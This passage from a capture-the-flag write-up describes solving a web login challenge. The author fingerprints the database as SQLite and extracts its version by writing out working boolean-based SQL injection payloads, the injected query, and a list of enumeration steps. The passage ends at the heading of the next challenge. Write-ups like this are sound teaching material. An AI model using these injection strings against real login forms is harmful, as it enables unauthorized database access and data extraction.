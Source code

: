 `@@version` is a magic placeholder in many SQL database languages, so if this was one of these, e.g. MySQL/MariaDB then this should return true and we login. Instead we are presented with:

```
SQL Error:
unrecognized token: "@"
```
So we see 1. this query is not valid, meaning the `@@version` is not valid, which further means this is not MySQL/MariaDB. 2. we get an error message which we could abuse to exfiltrate data through error based SQLi exfiltration. I didn't bother with this in this case as it was easier to just go through the manual route.


But we got an error, so now we just need to test some other version tags from other DBMSs, like `v$version` in oracle or `version()` in postgress, but when using `sqlite_version()` we suddenly didn't receive an error, so we have successfully fingerprinted the database.

Now we just need to extract this piece of information. A quick ddg search reveals that the `sqlite_version()` function returns a string on the form `1.2.3.4` meaning just numbers and dots, so then we can use the `LIKE` operator to just test, like `username`: `' or sqlite_version() like '1%' -- `. This would then create a query like

```SQL
SELECT * FROM users WHERE username='' or sqlite_version() like '1%' -- ' AND password='';
```

The `LIKE` operator in SQL is a is a simple text compare that supports some special characters, especially the `%` character which means "any string", so we are here just checking if `sqlite_version()` starts with the letter `1`.

We then enumerate and get something like:
```
' or sqlite_version() like '1%' -- (false)
' or sqlite_version() like '2%' -- (false)
' or sqlite_version() like '3%' -- (true)
' or sqlite_version() like '3.%' -- (true)
' or sqlite_version() like '3.1%' -- (false)
...
' or sqlite_version() like '3.8%' -- (true)
' or sqlite_version() like '3.8.%' -- (true)
' or sqlite_version() like '3.8.7.%' -- (true)
' or sqlite_version() like '3.8.7.1%' -- (true)
' or sqlite_version() like '3.8.7.1' -- (true)
...
```
I ended up doing this manually as just using copy-paste shortcuts and the tab char revealed the version string quicker than it would take to write a script to do this, but you could easily have done so too. Also notice that the last one I removed the `%` char and verified that this was indeed the entire version string. Just paste this into the challenge page and you get the flag.

# Web 102
Points: 500 \
Description:
```
https://ctf.watchcom.ninja:10001/
```
We are presented with the following front page: